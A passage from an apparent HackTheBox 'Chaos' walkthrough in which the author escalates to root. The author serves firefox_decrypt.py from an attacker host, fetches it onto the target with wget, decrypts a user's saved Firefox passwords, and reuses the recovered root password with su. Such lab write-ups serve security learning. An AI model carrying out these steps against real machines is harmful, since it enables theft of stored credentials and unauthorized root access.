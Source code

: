     
    
    ayush@chaos:~/.mozilla$ find . -maxdepth 2
    .
    ./firefox
    ./firefox/bzo7sjt1.default
    ./firefox/Crash Reports
    ./firefox/profiles.ini
    ./extensions
    

### Data Extraction from Firefox Profile

I’ll grab [this Firefox extraction
tool](https://raw.githubusercontent.com/unode/firefox_decrypt/master/firefox_decrypt.py),
and upload it to target with `wget`:

    
    
    root@kali# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.120 - - [08/May/2019 15:35:53] "GET /firefox_decrypt.py HTTP/1.1" 200 -
    
    
    
    ayush@chaos:/dev/shm$ wget 10.10.14.14/firefox_decrypt.py
    --2019-05-08 19:25:33--  http://10.10.14.14/firefox_decrypt.py
    Connecting to 10.10.14.14:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 34618 (34K) [text/plain]
    Saving to: ‘firefox_decrypt.py’
    
    firefox_decrypt.py                                     100%[============================================================================================================================>]  33.81K  --.-KB/s    in 0.1s    
    
    2019-05-08 19:25:34 (326 KB/s) - ‘firefox_decrypt.py’ saved [34618/34618]
    

When I run it, it immediately finds the profile, and prompts for a master
password. Giving it the only password I know for ayush, “jiujitsu”, works:

    
    
    ayush@chaos:/dev/shm$ python3 ff.py 
    
    Master Password for profile /home/ayush/.mozilla/firefox/bzo7sjt1.default: 
    
    Website:   https://chaos.htb:10000
    Username: 'root'
    Password: 'Thiv8wrej~'
    

I have the password that claims to be for the web service running on 10000. It
also has username root.

The most obvious thing to try next is to see if this is a shared root password
for the box. It is:

    
    
    ayush@chaos:/dev/shm$ su
    Password: 
    root@chaos:/dev/shm#
    